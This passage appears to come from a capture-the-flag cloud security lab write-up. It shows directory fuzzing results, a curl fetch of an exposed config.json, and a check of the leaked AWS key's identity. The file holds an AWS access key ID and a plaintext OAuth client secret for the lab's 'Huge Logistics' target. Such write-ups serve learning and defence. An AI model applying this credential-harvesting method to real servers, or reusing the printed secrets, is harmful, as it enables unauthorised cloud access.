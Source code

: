 ```
.html                   [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 191ms]
.html.conf              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 192ms]
.html.xml               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 194ms]
.html.json              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 194ms]
.html.yml               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 192ms]
.html.txt               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 196ms]
.html.yaml              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 194ms]
.html.env               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 194ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 195ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 201ms]
.htm.json               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 232ms]
.htm.xml                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 232ms]
.htm.txt                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 236ms]
.htm                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 237ms]
.htm.yml                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 232ms]
.htm.conf               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 237ms]
.htm.env                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 232ms]
.htm.yaml               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 232ms]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 190ms]
config.json             [Status: 200, Size: 832, Words: 141, Lines: 21, Duration: 213ms]
```

There was nothing interesting in directories, but we found `config.json`, which contains AWS keys.
```
└─$ curl http://52.0.51.234/config.json
{"aws": {
        "accessKeyID": "AKIAWHEOTHRFYM6CAHHG",
        "secretAccessKey": "<REDACTED>",
        "region": "us-east-1",
        "bucket": "hl-data-download",
        "endpoint": "https://s3.amazonaws.com"
    },
    "serverSettings": {
        "port": 443,
        "timeout": 18000000
    },
    "oauthSettings": {
        "authorizationURL": "https://auth.hugelogistics.com/ms_oauth/oauth2/endpoints/oauthservice/authorize",
        "tokenURL": "https://auth.hugelogistics.com/ms_oauth/oauth2/endpoints/oauthservice/tokens",
        "clientID": "1012aBcD3456EfGh",
        "clientSecret": "aZ2x9bY4cV6wL8kP0sT7zQ5oR3uH6j",
        "callbackURL": "https://portal.huge-logistics/callback",
        "userProfileURL": "https://portal.huge-logistics.com/ms_oauth/resources/userprofile/me"
    }
}

```

Keys belong to `data-bot` principal
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAWHEOTHRF7MLFMRGYH",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/data-bot"
}
```
